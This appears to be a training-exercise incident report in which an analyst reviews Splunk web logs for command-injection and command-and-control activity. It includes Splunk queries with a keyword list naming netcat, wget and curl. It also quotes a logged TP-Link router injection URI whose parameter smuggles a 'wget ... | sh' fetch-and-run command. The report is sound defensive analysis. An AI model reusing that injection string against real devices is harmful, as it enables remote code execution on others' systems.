


# Cover6 First Watch – Day 4: Command and Control

**Incident:** Odapeeka State University  
**Analyst:** Sami Qasem
**Date:** 21–22 November 2026  
**Source:** Splunk · `index=main` · `host=odapeeka` · `sourcetype=access_combined`  
**Time Range:** Last 24 hours

---

## Executive Summary

Investigation focused on indicators of Command and Control (C2) activity and command injection attempts.

- Multiple successful requests (status 200) targeted the root path `/` from various external IPs.
- Three attempts containing command execution / injection patterns were detected.
- All three injection attempts returned **HTTP 404** (failed).
- No successful command execution or clear C2 beaconing was observed in the available web logs.

---

## 1. Successful Non-Static Requests (status=200)

```spl
index=main host=odapeeka sourcetype=access_combined status=200 
NOT uri="*splunk*" NOT uri="*.js*" NOT uri="*.css*" NOT uri="*.png*" NOT uri="*en-US*" 
| stats count by uri,clientip 
| sort - count
```



**Result:** 183 events

Most activity targeted the root path `/` from multiple external IP addresses (examples: `45.198.224.125`, `45.198.224.76`, `207.175.103.117`, etc.).

---

## 2. Command Injection / Suspicious Parameter Checks

```spl
index=main host=odapeeka sourcetype="access_combined" 
NOT uri="*splunk*" 
(uri="*cmd=*" OR uri="*exec=*" OR uri="*shell=*" OR uri="*whoami*" OR uri="*netcat*" OR uri="*wget*" OR uri="*curl*") 
| table _time, clientip, uri, status
```



**Result:** 3 events (all status **404**)

| Time                | Client IP      | URI                                                                 | Status |
|---------------------|----------------|---------------------------------------------------------------------|--------|
| 2026-11-22 00:35:08 | 2.27.234.93    | `/cgi-bin/sp1.cgi?cmd=Login&token=null`                             | 404    |
| 2026-11-21 23:09:58 | 221.159.119.6  | `/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh)` | 404 |
| 2026-11-21 23:09:58 | 221.159.119.6  | `/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh)` | 404 |

These requests attempt command injection (including downloading and executing a remote script via `wget`). All attempts failed with HTTP 404.

---

## Key Findings

- Significant volume of successful requests to the root path `/` from multiple external IPs.
- Three clear command injection / remote code execution attempts were observed.
- All injection attempts returned **404** (unsuccessful).
- No successful command execution or established C2 channel was identified in the web access logs.
- The observed injection attempts appear to be opportunistic scanning rather than successful post-exploitation activity.

---

## Evidence

| File | Description |
|------|-------------|
| `evidence/01-successful-requests.png` | Successful non-static requests (status 200) |
| `evidence/02-command-injection.png` | Command injection / suspicious URI attempts |

---

**End of Day 4 Report**
